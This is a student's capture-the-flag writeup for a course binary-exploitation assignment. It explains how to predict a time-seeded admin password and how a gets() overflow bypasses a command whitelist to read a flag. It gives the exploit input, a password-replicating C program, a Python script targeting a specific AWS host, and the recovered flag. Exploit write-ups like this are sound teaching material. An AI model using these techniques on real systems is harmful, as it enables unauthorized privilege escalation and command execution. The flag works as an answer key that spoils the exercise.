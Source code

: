 # Writeup 8 - Binaries II

Name: *Sara Garcia-Beech*
Section: *0101*

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: *Sara Garcia-Beech*

## Assignment Writeup

### Part 1 (100 pts)
Answer the following questions regarding the server executable (for which source is provided).

1. How is the per-session administrator password generated? Are there any inherent weaknesses in this implementation?

A 16 character string is generated using the rand function, taking the current time as the seed parameter. This is inherently weak as a separate program could produce the same "random" password if it is run at the same time.

2. Describe two vulnerabilities in this program. Provide specific line numbers and classifications of the vulnerability. Explain potential ramifications as well as ways to avoid these vulnerabilities when writing code.

Line 68: The program takes a command from the user as input, but since the program uses the gets function here, it does not check the length of the input. This could potentially cause buffer overflows depending on what input is given.

Line 71: The program uses the nonstandard strcasestr function to compare the command given as user input to a list of acceptable user commands. If unchecked input causes a buffer overflow, the command variable could be overwritten and the strcasestr function could compare the input with something other than the command variable's encoded contents.

3. What is the flag?

CMSC389R-{expl017-2-w1n}

4. Describe the process you followed to obtain the flag: vulnerabilities exploited, your inputs to the server in a human-readable format, etc. If you create any helper code please include it.

I began by attempting to determine the password. The vulnerability in the generation of the password meant that it was possible to replicate the password generation with my own program, given that the program was run within the same second as the server's own password generation. This was done with my pwd.c program. Redirecting the output of the pwd.c function into the server allowed me to raise my privileges to those of admin and run commands. Running ls on the server revealed a file named flag, but there was no way to read the contents of the file with the limited whitelisted commands. However, the server took in user input for a command with the gets function, which is vulnerable to buffer overflows. Giving the program an input longer than 32 characters overwrote the commands variable with the contents of the string after the 32nd character. To run `cat flag`, I gave as input `cat flag`, followed by enough spaces to reach 32 characters, and then the same thing repeated, so that strcasestr would compare `cat flag` plus 24 spaces with itself, return true, and run cat flag without a problem.

Input summary:
```
3
Output of pwd.c
4
"cat flag                         cat flag                         "
```

pwd.c:
```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <time.h>

#define BUFF_SIZE 32
#define FLAG_SIZE 32
#define PASS_SIZE 16

int main(void) {
    int i, prompt_response;
    /* password for admin to provide to dump flag */
    char *password;
    /* true if user is admin */
    uint8_t admin;

    /* seed random with time so that we can password */
    srand(time(0));
    admin = 0;
    password = calloc(1, PASS_SIZE+1);
    for (i = 0; i < PASS_SIZE; i++) {
        password[i] = rand() % ('z'-' ') + ' ';
    }
    password[PASS_SIZE] = 0;

    printf("%s", password);

    return 0;
}
```

stub.py:
```
import socket
import os
import sys

host = "ec2-18-222-89-163.us-east-2.compute.amazonaws.com"
port = 1337

def server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))

    command = "cat flag                         cat flag                         "

    data = s.recv(1048)
    print(data)

    s.send("3\n")
    data = s.recv(1048)
    print(data)

    os.system("./pwd >> temp.txt")
    os.system("cat temp.txt")
    fl = open("temp.txt", "r")
    pwd = fl.read().split('\n')[0] + '\n'
    print("PWD:")
    print(pwd)
    print("****")

    s.send(pwd)

    data = s.recv(1048)
    print(data)

    s.send("4\n")
    print("Sending 4...")
    data = s.recv(1048)
    print(data)
    s.send(command + "\n")
    print("sending ls...")
    data = s.recv(1048)
    print(data)
    data = s.recv(1048)
    print(data)

    os.system("rm temp.txt")

server()
```
